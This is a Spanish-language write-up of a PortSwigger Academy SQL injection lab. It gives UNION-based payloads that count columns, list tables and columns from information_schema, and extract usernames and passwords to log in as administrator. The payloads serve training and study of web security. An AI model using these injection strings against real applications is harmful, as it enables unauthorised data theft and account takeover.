 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 9"
date = "2021-11-06"
description = "Lab: SQL injection attack, listing the database contents on non-Oracle databases"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, listing the database contents on non-Oracle databases

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer datos de la base de datos, basandose en inyectar consultas para tomarlos, al final se resuelve el laboratorio iniciando sesion con el usuario `administrator`.

## Reconocimiento

Algo a notar en las consultas al hacer union en MySQL es que al agregar un comentario se debe de agregar un espacio, como ejemplo `union select null-- ` notese el espacio al final para que el sistema pueda comentar correctamente, en otros gestores no es necesario esto pero MySQL si.


###  Payloads

#### Detectar columnas

```sql
Gifts' order by 1-- -
Gifts' order by 2-- -
Gifts' order by 3-- - //Muestra error
```
### Detectar string

Por lo que se ve al imprimir datos es que las dos columnas recuperan datos string, no es necesario hacer la prueba pero siempre hacerlo cuando se dude.

```sql
Gifts' union select 'test','test'-- -
```

### Recuperar tablas

```sql
Gifts' union select null,table_name fRoM information_schema.tables-- -
```
![Listado de Tablas](dbs.png)

### Recuperar nombres de columnas de la tabla `users_fcqnpf`

```sql
Gifts' union select null,column_name fRoM information_schema.columns wHeRe table_name='users_fcqnpf'-- -
```

![Listado de columnas de la tabla users_fcqnpf](columns.png)

### Recuperar Datos

```sql
Gifts' union select username_nrukiy,password_ebqikr from users_fcqnpf-- -
```
![Usuarios y Contrasenas extraidos](datos.png)

Y con esto hemos resulto el lab:

![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)